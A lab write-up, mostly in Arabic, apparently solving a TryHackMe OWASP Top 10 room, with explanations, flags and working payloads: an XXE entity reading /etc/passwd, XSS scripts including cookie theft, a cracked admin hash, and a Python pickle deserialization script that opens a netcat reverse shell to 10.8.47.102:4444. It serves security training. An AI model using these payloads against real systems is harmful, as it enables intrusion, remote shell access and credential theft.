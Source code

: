 # OWASP Top 10

<details>
  <summary>[Severity 1] Command Injection Practical</summary>

> What strange text file is in the website root directory?

```
$ ls
```

```
css
drpepper.txt
evilshell.php
index.php
js 
```

> How many non-root/non-service/non-daemon users are there?  how to know that in linux

```
getent passwd | awk -F: '$3 >= 1000 && $7 != "/usr/sbin/nologin" && $7 != "/bin/false" && $1 != "nobody" {print $1}' | wc -l
```

```
0
```

> What user is this app running as?

```
$ whoami
```

```
www-data 
```

> What is the user's shell set as?

```
getent passwd www-data | cut -d: -f7
```

> What version of Ubuntu is running?

```
$ cat /etc/os-release
```

```
18.04.4 
```

> Print out the MOTD.  What favorite beverage is shown?

```
$ cat drpepper.txt
```

```
I love Dr Pepper 
```

</details>


<details>
   <summary>[Severity 2] Broken Authentication Practical</summary>


> What is the flag that you found in darren's account?

- if you try to rigister using ``darren``
  - user already exist
- now register using ``darren   `` and login you will found the flag

> do same to ``auther``





  
</details>



<details>
  <summary>[Severity 3] Sensitive Data Exposure (Challenge)</summary>

![image](https://github.com/user-attachments/assets/3998c50c-5e62-4c36-9e2d-d57e48981a08)


![image](https://github.com/user-attachments/assets/c32a4e6e-078b-4396-a759-683fd515eff1)


![image](https://github.com/user-attachments/assets/8f486f43-09ad-414f-b40a-2c12b57fd2de)

```
��������tablesessionssessionsCREATE TABLE sessions(
sessionID TEXT NOT NULL UNIQUE,
userID TEXT NOT NULL,
expiry INT NOT NULL,
PRIMARY KEY (sessionID))/Cindexsqlite_autoindex_sessions_1sessions�*�'�-tableusersusersCREATE TABLE users(
userID TEXT NOT NULL UNIQUE,
username TEXT NOT NULL UNIQUE,
password TEXT NOT NULL,
admin INT NOT NULL,
�h��GKHMMEY(user23023b67a32488588db1e28579ced7ecBobad0234829205b9033196ba818f7a872bJM4e8423b514eef575394ff78caed3254dAlice268b38ca7b84f44fa0a6cdc86e6301e0JMM   4413096d9c933359b898b6202288a650admin6eea9b7ef19179a06954edd0f6c05ceb
����mH%%$M23023b67a32488588db1e28579ced7ec$M4e8423b514eef575394ff78caed3254d#M  4413096d9c933359b898b6202288a650
�J����  Bob     Alice   admin
�$                              
```
> admin password hash is

```
6eea9b7ef19179a06954edd0f6c05ceb
```

> crack it on crackstation

```
qwertyuiop
```

```
THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}
```


</details>



<details>
    <summary>[Severity 4 XML External Entity - eXtensible Markup Language</summary>

## 📏 القواعد المهمة في كتابة XML (Syntax Rules)

| القاعدة                                          | الشرح                                                |
| ------------------------------------------------ | ---------------------------------------------------- |
| 🔸 كل XML لازم يكون عنده عنصر جذر (Root Element) | مثل `<data>...</data>`                               |
| 🔸 XML حساس لحالة الأحرف                         | `<To>` ≠ `<to>`                                      |
| 🔸 لازم تغلق كل العناصر                          | `<tag></tag>` أو باستخدام self-closing مثل `<tag />` |
| 🔸 القيم النصية يجب أن تُحاط بعلامات اقتباس      | `<tag attr="value">`                                 |
| 🔸 لا يوجد عناصر غير مغلقة مثل HTML              | (ما في `<br>` بس في `<br/>`)                         |




## 📋 مثال شامل:

```
<?xml version="1.0" encoding="UTF-8"?>
<bookstore>
  <book category="programming">
    <title lang="en">Learn XXE</title>
    <author>Cyber Falcon</author>
    <year>2025</year>
    <price>0.00</price>
  </book>
</bookstore>
```

---

📎 DTD (Document Type Definition)
هنا يبدأ الموضوع يكون خطير، لأننا راح نستخدم DTD في استغلال XXE لاحقًا.

إيش هو DTD؟
هو تعريف هيكل وهيئة المستند XML، ويقدر يحتوي على:

تعريف العناصر

السماح بالكيانات الخارجية (External Entities)

مثال DTD داخلي:


```
<!DOCTYPE mail [
  <!ELEMENT mail (to, from, subject, text)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT subject (#PCDATA)>
  <!ELEMENT text (#PCDATA)>
]>
```


☠️ لكن هنا الخطورة:
DTD يسمح بتعريف كيان خارجي External Entity زي كذا:



```
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
```

----

![image](https://github.com/user-attachments/assets/ef843c7a-364d-49dd-b57b-241504ee501b)


--- ---
---
---

🧱 مثال توضيحي:
ملف DTD داخلي:

```
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

XML يستند عليه:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

🧠 شرح مفصل لكل سطر في DTD:

| السطر                                    | المعنى                                                                               |
| ---------------------------------------- | ------------------------------------------------------------------------------------ |
| `<!DOCTYPE note [...]>`                  | يعرّف أن الجذر (Root Element) اسمه `note`                                            |
| `<!ELEMENT note (to,from,heading,body)>` | عنصر `note` لازم يحتوي بالترتيب على العناصر الأربعة: `to`, `from`, `heading`, `body` |
| `<!ELEMENT to (#PCDATA)>`                | العنصر `to` يحتوي بيانات نصية قابلة للقراءة (Character Data)                         |
| `#PCDATA`                                | اختصار لـ: **Parsed Character Data** → يعني نص يتم تفسيره                            |
| باقي العناصر (`from`, `heading`, `body`) | كلهم زي `to`، يحتوي بيانات نصية فقط                                                  |



🔎 أنواع البيانات في DTD:

| النوع      | الشرح                        |                                    |
| ---------- | ---------------------------- | ---------------------------------- |
| `#PCDATA`  | بيانات نصية قابلة للتحليل    |                                    |
| `EMPTY`    | العنصر لا يحتوي على أي محتوى |                                    |
| `ANY`      | العنصر ممكن يحتوي على أي شيء |                                    |
| \`(#PCDATA | element)\*\`                 | محتوى مختلط، ممكن يكون نص أو عناصر |



📦 أنواع DTD:


| النوع            | الوصف                                                |
| ---------------- | ---------------------------------------------------- |
| **Internal DTD** | يُكتب داخل ملف XML نفسه                              |
| **External DTD** | يُخزّن في ملف خارجي (`note.dtd`) ويتم ربطه بـ SYSTEM |



مثال ربط DTD خارجي:


```
<!DOCTYPE note SYSTEM "note.dtd">
```

🎯 ليش نستخدم DTD؟

- نتأكد أن ملف XML صحيح وصالح

- يسهل التعامل بين الأنظمة المختلفة

- أساس مهم في التحقق من الصيغة قبل استخدام XML في البرمجة أو المعالجة






## 🚨 ملاحظة أمان:
> لأن DTD يسمح بكيانات خارجية (<!ENTITY ... SYSTEM ...>)، نقدر نستغلها في هجمات XXE، وهذا بالضبط الي راح ندخله بعد ما نخلص الأساسيات.





![image](https://github.com/user-attachments/assets/c103f572-64be-44ed-8cde-fd16dffc6237)

---
---
---



🧪 أولًا: Payload بسيط (تعريف كيان داخلي)
💻 الكود:

```
<!DOCTYPE replace [
  <!ENTITY name "feast">
]>
<userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
</userInfo>
```

🔍 الشرح:
<!ENTITY name "feast"> ← بنعرّف كيان اسمه name وقيمته "feast".

&name; ← بنستخدم الكيان داخل العنصر <lastName>.

📌 النتيجة بعد تفسير XML:

```
<userInfo>
  <firstName>falcon</firstName>
  <lastName>feast</lastName>
</userInfo>
```

✅ ده مثال تعليمي على إزاي XML ممكن يستخدم كيانات (Entities)، لكن ما فيهوش اختراق.



---


💣 ثانيًا: Payload حقيقي لاستغلال XXE لقراءة ملفات
💻 الكود:

```
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY read SYSTEM "file:///etc/passwd">
]>
<root>&read;</root>
```

🔍 الشرح:
<!ENTITY read SYSTEM "file:///etc/passwd"> ← هنا بنعرّف كيان خارجي (External Entity) بياخد قيمة محتوى ملف من السيرفر.

&read; ← بيتم استدعاء الكيان داخل العنصر <root>.

📌 لو التطبيق فيه ثغرة XXE ومش عامل الحماية اللازمة:

الكود ده هيخلي التطبيق يفتح ملف /etc/passwd من نظام التشغيل ويعرضه لك!

``📂 /etc/passwd``:

هو ملف في نظام لينوكس يحتوي على معلومات المستخدمين، وغالبًا ما يُستخدم لاختبار وجود الثغرة.



⚠️ ملاحظات مهمة:

1- ✅ لازم التطبيق يسمح بقراءة DTD أو ما يكون فيه الحماية (زي منع الكيانات الخارجية).

2- ❌ لو التطبيق عامل hardening (زي في Java أو PHP الحديثة)، ممكن البايلود ما يشتغل.

3- 🔒 بعض الملفات ممكن تكون مقفولة أو require root access، فقراءتها هتفشل.



🎯 خلاصة:


| النوع               | الشرح                               | مثال                                         |
| ------------------- | ----------------------------------- | -------------------------------------------- |
| **Internal Entity** | كيان داخلي بقيمة ثابتة              | `<!ENTITY name "feast">`                     |
| **External Entity** | كيان بيروح يقرأ من ملف أو URL خارجي | `<!ENTITY read SYSTEM "file:///etc/passwd">` |





![image](https://github.com/user-attachments/assets/2a9efdc7-aa39-447e-9033-a32ff99570e3)



![image](https://github.com/user-attachments/assets/ec86f674-36f1-4b6b-83a8-ae0ce0b50105)

![image](https://github.com/user-attachments/assets/5cff94f1-2320-4729-8c58-96f05ba90a33)






   
</details>







<details>
  <summary>[Severity 5] Broken Access Control</summary>


![image](https://github.com/user-attachments/assets/43c12a69-d4e0-474c-96d8-da456d3ee971)





</details>



<details>
  <summary>[Severity 6] Security Misconfiguration</summary>


![image](https://github.com/user-attachments/assets/887466f1-854d-4700-b280-6adcc500f8aa)

![image](https://github.com/user-attachments/assets/7fb4eaac-2932-4fad-8f0d-eb4f871f48f5)


![image](https://github.com/user-attachments/assets/68a62ce1-fd7c-4ae7-bc98-250cb8f8dbe7)


</details>




<details>
  <summary>[Severity 7] Cross-site Scripting</summary>


![image](https://github.com/user-attachments/assets/22b11381-3913-455e-8e46-66d3107f048f)

``payload``

```
(<script>alert(“Hello”)</script>)
```

```
ThereIsMoreToXSSThanYouThink
```

![image](https://github.com/user-attachments/assets/57694080-3c94-4a8b-b669-2183cad419b8)


--- 

``payload``

```
<script>alert(window.location.hostname)</script>
```

```
ReflectiveXss4TheWin
```

![image](https://github.com/user-attachments/assets/e5a528ee-c948-4703-ad1a-ed054c5bba65)





---

![image](https://github.com/user-attachments/assets/ceb2c310-751e-4087-8007-4921572e8143)

``payload``

```
<img src="invalid-image" onerror="alert('Stored XSS!')">
```

```
HTML_T4gs
```

---



``payload``

```
<script>alert(document.cookie)</script>
```

```
W3LL_D0N3_LVL2
```

![image](https://github.com/user-attachments/assets/470ef965-7445-4e83-b3e1-b05e86355c72)


---



``payload``

```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```

```
websites_can_be_easily_defaced_with_xss
```

![image](https://github.com/user-attachments/assets/8264f9e1-63c4-41ca-ba2c-e925c46b70a0)






  
</details>



<details>
  <summary>[Severity 8] Insecure Deserialization</summary>


<details>

🔐 إيه هي Insecure Deserialization؟
Deserialization معناها:
تحويل البيانات المخزنة في شكل ملف (زي JSON، أو Binary) إلى كائن (Object) في البرنامج عشان يشتغل عليه.

Insecure Deserialization يعني إن الهاكر يقدر يغير البيانات دي (اللي هتتحول لـ Object) ويحط فيها كود خبيث، وبعدين التطبيق ينفذه وهو فاكر إن دي بيانات عادية.

🧠 تخيل معايا السيناريو:
التطبيق بيبعت Object مشفّر للمستخدم (زي user settings).

المستخدم يعدل البيانات ويرجعها.

التطبيق يفك التشفير (deserialize) ويستخدمها مباشرة بدون تحقق.

لو المستخدم حاطت كود خبيث... التطبيق يشغّله 😱


----

----
----
---

في البرمجة الكائنية (OOP)، الكائن (Object) بيتكوّن من:

State (الحالة): يعني هو "عامل إزاي دلوقتي"، أو "شكله/قيمه".

Behaviour (السلوك): يعني "هو بيعمل إيه"، أو "الوظائف اللي بيقدر يعملها".




---
----
----
---

🔄 إيه هو الـ Serialization / Deserialization؟
خلينا نبدأ بالتشبيه الأول:

👤 السياح والخرائط:
تخيل سائح ضايع في بلدك، وبيسألك على طريق معلم مشهور. المشكلة؟ هو مش بيتكلم لغتك، وانت مش فاهم لغته. فإيه الحل؟
ترسم له خريطة 👣 — لأن الصور مفهومة لأي شخص، وفعلاً قدر يوصل!

🎯 في المثال ده:

إنت رسمت خريطة = Serialization ➡️ حولت معلومات (الطريق) إلى شكل بسيط (الخريطة).

السائح فهم الخريطة = Deserialization ➡️ رجّع الخريطة لمعلومة مفهومة (الطريق الحقيقي).

🧠 طب ده معناه إيه في البرمجة؟
🔹 Serialization:
هي عملية تحويل كائن (Object) في البرنامج (مثلاً بيانات مستخدم، أو رسالة، أو باسورد) إلى صيغة مبسطة زي:

JSON

XML

Binary

والسبب؟ علشان تقدر:

ترسلها عبر الشبكة

تخزنها في قاعدة بيانات

🔹 Deserialization:
هي العملية العكسية، ترجّع البيانات المبسطة دي لكائن كامل تاني في البرنامج علشان تشتغل عليه.

🎯 مثال بسيط:
عندك باسورد: "password123"

قبل ما يتبعت لقواعد البيانات أو عبر الإنترنت، لازم يتحوّل لصيغة بسيطة (مثلاً binary أو JSON).

أول ما يوصل، يتفك تاني ويرجع "password123".

💀 فين المشكلة (Insecure Deserialization)؟
لو الـ deserialization حصل من غير تحقق من البيانات، ممكن الهاكر يبعَت بيانات فيها كود خبيث!
ولأن البرنامج بيثق في البيانات دي، هينفّذها زي ما هي 🔥

🚨 والنتائج ممكن تكون:
🧨 DoS: الموقع ينهار

👾 RCE (Remote Code Execution): الهاكر يشغل أوامر على السيرفر

🕳️ التطبيقات المعرّضة للخطر:
أي تطبيق بيخزن/يسترجع بيانات بدون تحقق كويس. أمثلة:

مواقع التجارة الإلكترونية

المنتديات

الـ APIs

أنظمة زي: Jenkins, Tomcat, JBoss



🧠 الخلاصة:

| المصطلح                  | معناه                                                                  |
| ------------------------ | ---------------------------------------------------------------------- |
| Serialization            | تحويل كائن لبيانات بسيطة (مثلاً JSON أو Binary) علشان يتخزن أو يتنقل.  |
| Deserialization          | تحويل البيانات البسيطة لكائن برمجي تاني نقدر نشتغل عليه.               |
| Insecure Deserialization | استغلال البيانات دي عشان ننفذ كود خبيث بسبب عدم وجود تحقق أو فحص سليم. |





----
----
----
----



🍪 إيه هي الـ Cookies؟
الكوكيز (Cookies) هي قطع صغيرة من البيانات بيخزنها الموقع على جهازك، والغرض منها هو تذكر معلومات عنك لما تتصفح أو ترجع للموقع تاني.

✅ ليه المواقع بتستخدم الكوكيز؟
بعض الاستخدامات الشائعة:
🛒 حفظ محتويات السلة (في مواقع الشراء).

🔐 حفظ بيانات الجلسة (session ID) بعد تسجيل الدخول.

🌐 تخصيص تجربتك على الموقع (مثلاً تفضل اللغة العربية؟ الكوكيز تعرف ده).

📈 تتبع نشاط المستخدم (لأغراض تحليلية وإعلانات).

⚠️ المشكلة في المثال اللي فوق:
الموقع بيخزن بيانات تسجيل الدخول بشكل نصّي عادي (plaintext) جوه الكوكيز 😱
ودي ثغرة أمنية خطيرة لأن أي حد يقدر يقرأها أو يسرقها بسهولة من المتصفح.

لكن مهم نوضح:
🔸 دي مش ثغرة Insecure Deserialization لأننا مش بنرسل كائنات متسلسلة (serialized objects) يتم تنفيذها بعد كده.
هي مجرد بيانات محفوظة بشكل غير آمن.

⏳ مدة صلاحية الكوكيز (Expiry):
مش كل الكوكيز بتفضل محفوظة دايمًا.

Session cookies: بتتحذف لما تقفل المتصفح.

Persistent cookies: بتفضل محفوظة لفترة، حسب التاريخ والوقت اللي بيتحدد في خاصية "Expiry".





⚙️ خصائص الكوكيز المهمة:


| الخاصية      | الوصف                                                       | مطلوب؟ |
| ------------ | ----------------------------------------------------------- | ------ |
| Cookie Name  | اسم الكوكي                                                  | ✔️ نعم |
| Cookie Value | القيمة اللي الكوكي بتخزنها (ممكن تكون نص، Base64، إلخ)      | ✔️ نعم |
| Secure Only  | لو اتفعلت، الكوكي ده هيتبعت فقط في الاتصالات الآمنة (HTTPS) | ❌      |
| Expiry       | الوقت اللي الكوكي هينتهي فيه ويتحذف من المتصفح              | ❌      |
| Path         | الكوكي ده هيتبعت فقط لو رابط الصفحة ضمن المسار المحدد       | ❌      |










  
</details>



![image](https://github.com/user-attachments/assets/ecf27e99-05da-4a48-80f0-660695602848)

change ``suertype`` to ``admin``

![image](https://github.com/user-attachments/assets/a00e66b5-9774-4844-b8c8-1412c5091bc2)

``sessionID``

```
gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAMDEyOGVlMzZkYmY1NDE2N2E2YmRiN2IxYjllOTUxYjFxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==
```

![image](https://github.com/user-attachments/assets/7a25b12c-b824-49a2-af98-0b558a8e6dfe)

```
THM{good_old_base64_huh}
```

---
---


![image](https://github.com/user-attachments/assets/7c64eb15-c87a-4f9f-a71d-8d9b7913b1e4)


```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.8.47.102 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))     
```

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOC40Ny4xMDIgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

put it in ``encoded payload``

![image](https://github.com/user-attachments/assets/a010c61b-0a73-498a-96bd-6793358152b3)


refresh page or write feedback

![image](https://github.com/user-attachments/assets/6fd271d4-c84d-490c-9778-c46a60a58dcd)

![image](https://github.com/user-attachments/assets/d97bd937-a2c9-4176-9f2c-8a854843e75d)


``flag``


```
4a69a7ff9fd68
```




  
</details>



<details>
  <summary>[Severity 9] Components With Known Vulnerabilities - Intro</summary>


<details>


🔥 الثغرات المعروفة مسبقًا (Known Vulnerabilities)
أحيانًا وإنت بتعمل اختبار اختراق (Penetration Testing)، تكتشف إن الشركة بتستخدم برامج قديمة ومعروفة إنها فيها ثغرات.

🧪 مثال عملي:
شركة بتستخدم WordPress إصدار 4.6 (قديم جدًا).

إنت بتستخدم أداة اسمها wpscan علشان تتأكد من الإصدار.

تكتشف إن الإصدار ده فيه ثغرة RCE (تشغيل أوامر عن بُعد).

تعمل بحث بسيط، وتلاقي Exploit جاهز على موقع زي Exploit-DB.

يعني إيه RCE؟
يعني تقدر تشغّل أوامر على السيرفر بتاعهم عن بُعد كأنك على الجهاز نفسه! ودي كارثة.

🤯 ليه ده خطر جدًا؟
لأن:

الثغرات معروفة وموجودة في الإنترنت.

فيه أدوات كثيرة تقدر تكتشف البرامج وإصداراتها.

ولو الشركة ماحدّثتش النظام لأي سبب، حتى لو مرة واحدة، ممكن تكون معرضة لهجوم كبير.

📊 تقييم OWASP
منظمة OWASP صنّفت النوع ده من الثغرات كالتالي:

درجة الانتشار (Prevalence): رقم 3 = عالية جدًا

السبب؟ لأن من السهل على أي شركة إنها تنسى تحديث برنامج معين وبالتالي تبقى معرضة للهجوم.

⚠️ خلاصة:




| العنصر            | الشرح                                             |
| ----------------- | ------------------------------------------------- |
| المشكلة           | استخدام إصدارات قديمة من البرامج                  |
| النتيجة           | استغلال الثغرات المعروفة وتنفيذ هجوم بسهولة       |
| الأدوات المستخدمة | wpscan، exploit-db وغيرها                         |
| الحل              | دايمًا تحدّث برامجك، وخصوصًا WordPress وأنظمة CMS |
| تصنيف OWASP       | خطورة عالية، وانتشار كبير                         |





----

-----


استغلال الثغرات المعروفة — مثال عملي على Nostromo 1.9.6
الخطوة 1: تعرف على البرنامج والإصدار
في المثال ده، اكتشفنا إن السيرفر بيستخدم Nostromo 1.9.6، وده برنامج سيرفر ويب.

وجود اسم البرنامج ورقم الإصدار مهم جدًا، لأنه بيسهل علينا البحث عن الثغرات اللي تخصه.

الخطوة 2: البحث عن الثغرات على Exploit-DB
Exploit-DB موقع مهم جدًا، فيه قاعدة بيانات ضخمة للثغرات والاستغلالات الجاهزة (Exploits).

باستخدام اسم البرنامج + رقم الإصدار، نقدر نلاقي استغلالات جاهزة.

في المثال ده، لقينا سكريبت استغلال (exploit script) جاهز لـ Nostromo 1.9.6.

الخطوة 3: تشغيل السكريبت وتعديلاته
أول محاولة لتشغيل السكريبت ممكن تفشل.

لازم تكون فاهم لغة البرمجة اللي مكتوب بيها السكريبت (غالبًا Python, Perl, PHP, إلخ).

ممكن تلاقي أخطاء صغيرة، زي سطر برمجي لازم يتعطل (يكون comment) أو تعديل بسيط.

في المثال، لقينا إن السطر اللي مسبب المشكلة كان لازم يتعطل — تعديل سهل.

الخطوة 4: تشغيل السكريبت بنجاح والحصول على RCE
بعد التعديل، شغلنا السكريبت تاني.

فجأة حصلنا على Remote Code Execution (RCE) يعني تقدر تنفذ أوامر على السيرفر عن بُعد.

نقاط مهمة:
أغلب السكريبتات بتشرح بشكل واضح إيه الوسائط (arguments) اللي لازم تعطيها للسكريبت.

مش لازم تقرأ كل الكود، المطورين عادةً بيكتبوا دليل صغير للاستخدام.

ممكن المرة الأولى مش تكون التجربة سهلة، لازم تدور على النسخة الصح، أو تحلل صفحة الويب وتدور على أي معلومات تساعدك.

لو الثغرة معروفة، غالبًا تقدر تلاقي إصدار البرنامج بسهولة وتستغلها.

خلاصة:


| خطوة                        | شرح                                       |
| --------------------------- | ----------------------------------------- |
| 1. اكتشاف البرنامج والإصدار | ضروري لمعرفة نوع الثغرة                   |
| 2. البحث في Exploit-DB      | تجد استغلال جاهز لتوفير الوقت             |
| 3. تعديل السكريبت           | قد تحتاج لتعديلات بسيطة للتشغيل           |
| 4. التنفيذ والحصول على RCE  | الوصول لنقطة تمكنك من السيطرة على السيرفر |



















  
</details>




![image](https://github.com/user-attachments/assets/2fa9fe8a-2c41-4287-b878-afd44fc65245)

![image](https://github.com/user-attachments/assets/5d0a7d8a-77bd-4c20-bbcb-448903788b30)

![image](https://github.com/user-attachments/assets/b059849b-f516-4842-b751-ebfb528a8a0f)

![image](https://github.com/user-attachments/assets/6704f7ad-cd86-4d99-8d3e-c03672742d6a)

![image](https://github.com/user-attachments/assets/b648e849-7c42-45c2-882d-1a560016756f)








  
</details>






















